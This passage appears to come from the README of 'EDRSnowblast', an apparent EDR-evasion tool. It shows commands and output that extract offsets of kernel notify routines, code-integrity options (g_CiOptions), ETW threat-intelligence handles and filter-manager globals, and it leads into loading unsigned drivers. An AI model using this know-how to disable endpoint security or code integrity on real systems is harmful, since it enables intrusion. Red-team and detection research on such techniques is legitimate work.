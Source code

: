 ```
[ snip ]

└─$ python3 ExtractOffsets.py -i 10.0.19045.3324/fltmgr.sys fltmgr
[ snip ]

```


### Directly on Windows target host
Generate offsets for a new Windows ci.dll (new file created : CiOffsets.csv)  

```
C:\Users\viking>python .\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\ci.dll ci
[*] Processing ci version ci_19041-3208.dll (file: c:\Windows\System32\ci.dll)
[+] g_CiOptions = 0x39418
[+] do it : c:\Windows\System32\ci.dll
e246455a03d9113c5dfd597afdd2d6f079d83b5c9bf28d20953ca3e81c1d67a0
[+] Finished processing of ci c:\Windows\System32\ci.dll!
```

Generate offsets for a new Windows kernel (new file created : NtoskrnlOffsets.csv)  

```
C:\Users\viking>python .\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\ntoskrnl.exe ntoskrnl
[*] Processing ntoskrnl version ntoskrnl_19041-3208.exe (file: c:\Windows\System32\ntoskrnl.exe)
[+] PspCreateProcessNotifyRoutine = 0xcec2a0
[+] PspCreateThreadNotifyRoutine = 0xcec0a0
[+] PspLoadImageNotifyRoutine = 0xcec4a0
[+] _PS_PROTECTION Protection = 0x87a
[+] EtwThreatIntProvRegHandle = 0xc19e08
[+] _ETW_GUID_ENTRY* GuidEntry = 0x20
[+] _TRACE_ENABLE_INFO ProviderEnableInfo = 0x60
[+] PsProcessType = 0xcfc410
[+] PsThreadType = 0xcfc440
[+] struct _LIST_ENTRY CallbackList = 0xc8
[+] do it : c:\Windows\System32\ntoskrnl.exe
e8e6040640c9dddc8feeb0a9310bab92e7e422ef469beabdd8b5bb63b7a9dad0
[+] Finished processing of ntoskrnl c:\Windows\System32\ntoskrnl.exe!
```

Generate offsets for a new Windows fltmgr.sys (new file created : FltmgrOffsets.csv)  

```
C:\Users\viking>python z:\EDRSnowblast\Offsets\ExtractOffsets.py -i c:\Windows\System32\drivers\fltMgr.sys fltmgr
[*] Processing fltmgr version fltmgr_19041-3086.sys (file: c:\Windows\System32\drivers\fltMgr.sys)
[+] FltGlobals = 0x29600
...
[+] do it : c:\Windows\System32\drivers\fltMgr.sys
a74ad4d7624fb741b7008711336b37f3a27d96c3ef6361c107155b3bdfd8592b
[+] Finished processing of fltmgr c:\Windows\System32\drivers\fltMgr.sys!
```

## Example : loading unsigned Windows drivers 
